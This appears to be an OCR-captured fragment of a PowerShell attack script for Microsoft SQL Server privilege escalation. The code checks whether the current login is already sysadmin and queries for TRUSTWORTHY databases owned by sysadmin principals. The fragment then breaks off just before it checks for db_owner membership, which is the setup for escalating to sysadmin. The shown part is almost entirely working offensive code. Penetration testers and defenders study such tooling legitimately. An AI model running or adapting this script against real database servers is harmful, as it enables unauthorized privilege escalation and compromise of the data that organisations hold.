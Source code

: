             $Checksysadmin = $_.IsSysAdmin
            if ($Checksysadmin -ne 0){
                    write-host "[*] You're already a sysadmin - no escalation needed." -foreground "green"
                    Break             
            }
        }

        # -----------------------------------------------
        # Get a list of trusted databases owned by a sysadmin 
        # -----------------------------------------------       

        # Setup query to grab a list of accessible databases
        $QueryDatabases = "SELECT d.name AS DATABASENAME 
        FROM sys.server_principals r 
        INNER JOIN sys.server_role_members m ON r.principal_id = m.role_principal_id 
        INNER JOIN sys.server_principals p ON 
        p.principal_id = m.member_principal_id 
        inner join sys.databases d on suser_sname(d.owner_sid) = p.name 
        WHERE is_trustworthy_on = 1 AND d.name NOT IN ('MSDB') and r.type = 'R' and r.name = N'sysadmin'"

        # User status
        write-host "[*] Enumerating accessible trusted databases owned by sysadmins..."

        # Query the databases and load the results into the TableDatabases data table object
        $conn.Open()
        $cmd = New-Object System.Data.SqlClient.SqlCommand($QueryDatabases,$conn)
        $results = $cmd.ExecuteReader()
        $TableDatabases.Load($results)

        # Check if any accessible databases where found 
        if ($TableDatabases.rows.count -eq 0){

            write-host "[*] No accessible databases found." -foreground "red"
            Break
        }else{
            $DbCount = $TableDatabases.rows.count      
            write-host "[*] Found $DbCount trusted databases owned by a sysadmin." -foreground "green"
        }

        # -------------------------------------------------
        # Check if current user has db_owner role in any of them
        # -------------------------------------------------
        if ($TableDatabases.rows.count -ne 0){  
